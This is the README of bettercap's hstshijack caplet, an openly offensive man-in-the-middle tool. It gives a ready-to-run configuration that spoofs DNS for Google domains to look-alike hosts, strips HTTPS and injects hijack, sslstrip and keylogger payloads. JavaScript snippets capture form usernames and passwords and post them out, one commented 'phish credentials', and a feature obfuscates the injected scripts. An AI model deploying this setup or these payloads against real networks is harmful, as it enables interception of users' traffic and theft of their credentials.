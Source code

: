 <p align="center">
  <img width="420px" src="https://raw.githubusercontent.com/buffermet/cdn/master/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets         *.google.com, google.com, gstatic.com, *.gstatic.com
set hstshijack.replacements    *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set hstshijack.ssl.domains     /usr/local/share/bettercap/caplets/hstshijack/domains.txt
set hstshijack.ssl.index       /usr/local/share/bettercap/caplets/hstshijack/index.json
set hstshijack.ssl.check       true
#set hstshijack.blockscripts    example.com,*.example.com
set hstshijack.obfuscate       true
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
#set hstshijack.ignore          *

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
http.proxy on

set dns.spoof.domains  *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set dns.spoof.all      true
dns.spoof on
```

### <a href="./payloads/hijack.js">**hijack.js**</a> payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>). This payload acts as a callback for bettercap, takes care of hostname spoofing in attributes of injected documents, as well as XMLHttpRequest.

Injecting this payload is essential for hostname spoofing.

### Scalable domain indexing (SSL log)

<br>

<p align="center">
  <img width="420px" src="https://user-images.githubusercontent.com/29265684/94715357-b44c3800-0390-11eb-82f3-6948aeff27f2.png" />
</p>

If a host responds with an HTTPS redirect, bettercap will save this host in a list, and keep a log of (alphanumerically) ordered index ranges of the domains in this list, allowing it to scale by reducing a considerable amount of overhead for the proxy module.

Bettercap will try to spoof SSL connections between the client and these hosts, and will also send a HEAD request to each host that was discovered in an injected document, and retrieved via a callback from the <a href="./payloads/hijack.js">**hijack.js**</a> payload.

By default, this caplet will remap the index ranges of all domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.check` variable value to `false`.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are assembled at launch, executed synchronously, and wrapped inside a function that is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once per application, even if injected multiple times. Individual payloads are not failsafe, so you must set your conditions/try and catch blocks yourself.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the hstshijack.js and sslstrip.js payloads when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_` will be obfuscated.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_path_callback` will be replaced with the callback path (see example above).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.
